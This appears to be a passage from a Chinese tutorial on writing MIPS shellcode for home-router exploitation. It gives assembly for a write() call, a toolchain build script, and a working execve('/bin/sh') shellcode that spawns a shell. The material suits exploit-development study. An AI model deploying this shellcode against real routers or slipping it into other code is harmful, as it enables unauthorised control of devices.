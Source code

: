 首先第一步，shellcode的编写。一个典型的调用write的c代码为：

```
Int main()
`{`
char *pstr = “ABCn”;
write(1, pstr, 5);
`}`
```

写成shellcode就为write.S

```
.section .text
.globl __start
.set noreorder
__start:
addiu $sp,$sp,-32        # 抬高堆栈，用来放置参数
li $a0,1                # 传入第一个参数，表示输出到stdout
lui $t6,0x4142            
ori $t6,$t6,0x430a        # 放置字符ABCn到$t6中
sw $t6,0($sp)            # 将$t6里面的数据存储到堆栈中
addiu $a1,$sp,0        # 从堆栈中将ABCn存储到第二个参数$a1中，
li $a2,5                # 传入第三个参数，5，表示字符串长度
li $v0,4004            # 传入write的系统调用号4004
syscall
```

其中，.section .text 表示当前为.text程序段，.globl __start表示定义程序开始的符号，.set noreorder表示不对汇编指令进行重新排序。

接下来使用下面的脚本来编译上述汇编指令，要从build-root里面的来编译。书本《揭秘家用路由器0day漏洞挖掘技术》提供的脚本直接执行了命令as,ld是有问题的，希望大家注意，正确的脚本如同下面类似的

```
#!/bin/sh
# $ sh nasm.sh &lt;source file&gt; &lt;excute file&gt;
src=$1
dst=$2
~/qemu_dependence/buildroot-mips/output/host/bin/mips-linux-as $src -o s.o
echo "as ok"
~/qemu_dependence/buildroot-mips/output/host/bin/mips-linux-ld s.o -o $dst
echo "ld ok"
rm s.o
```

那么下面的命令既可以编译：

```
bash nasm.sh write.S write
```

另外一方面，对于execve(“/bin/sh”, 0, 0)产生而言，典型的shellcode应为execve.S

```
.section .text
.globl __start
.set noreorder
__start:
li $a2,0x111            #
p:bltzal $a2,p            # 该指令执行后，会使得下下行的地址保存在$ra中
li $a2,0                # 存入第三个参数0，
addiu $sp,$sp,-32        # 拉高堆栈，存放参数
addiu $a0,$ra,28        # $ra+28是下面参数字符串/bin/sh的首地址
sw $a0,-24($sp)        # 将/bin/sh存入开辟的数组
sw $zero,-20($sp)        # 将参数0存入数组
addiu $a1,$sp,-24
li $v0,4011
syscall
sc:                    # 存储的参数/bin/sh
    .byte 0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68
```